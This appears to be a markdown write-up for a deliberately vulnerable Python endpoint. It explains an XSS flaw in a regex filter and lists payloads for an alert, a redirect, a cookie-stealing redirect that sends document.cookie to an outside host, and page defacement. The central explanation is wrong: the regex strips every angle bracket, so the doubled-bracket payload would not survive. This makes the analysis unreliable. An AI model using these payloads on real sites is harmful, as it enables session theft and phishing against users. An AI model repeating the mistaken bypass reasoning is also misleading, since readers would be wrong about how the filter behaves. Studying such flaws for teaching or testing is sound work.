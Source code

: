 ### This code is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting)

Vulnerable Function: `get_planet_info()` and ```get_planet_info_endpoint()```

### Why its vulnerable?

Re: ```sanitized_planet = re.sub(r'[<>(){}[\]]', '', planet) ```
In this regex, the characters <, >, (, ), {, }, [, and ] are explicitly removed, but whitespace characters are not removed. 
and only ```script``` tag is blocked, so we can use other tags like ```img``` to exploit XSS. 


Exploit: 
```js
<<img src="x" onerror="alert(1)">>
``` 

**Explanation**: In this payload, the double angle brackets << and >> will not be matched by the regex, so the payload remains unaffected, and the XSS attack will be executed.

### How to Fix?
- We can use html escape function to escape all the html characters / or improve the regex to escape all the html characters.

### What you can do with XSS?
- Steal Cookies and Session Information
- Redirect to malicious websites
- Modify website content
- Phishing
- Keylogging
- etc. 

### How to prevent XSS?
- Sanitize user input properly
- Use Content Security Policy (CSP)
- Use HttpOnly Cookies
- Use X-XSS-Protection header


### Here are some exploit examples:

#### Redirect to Phiting page using XSS 
```
<<img src="x" onerror="window.location.href = 'https://google.com';">>
```

#### Get cookies 
```<<img src="x" onerror="window.location.href = 'https://google.com/?cookie=' + document.cookie;">>
```

#### Modify website content
You can inject any phising page / malicious page or any other content to the website using XSS.

```
<<img src="x" onerror="document.body.innerHTML = '<h1>Website is hacked</h1>';">> 
```


 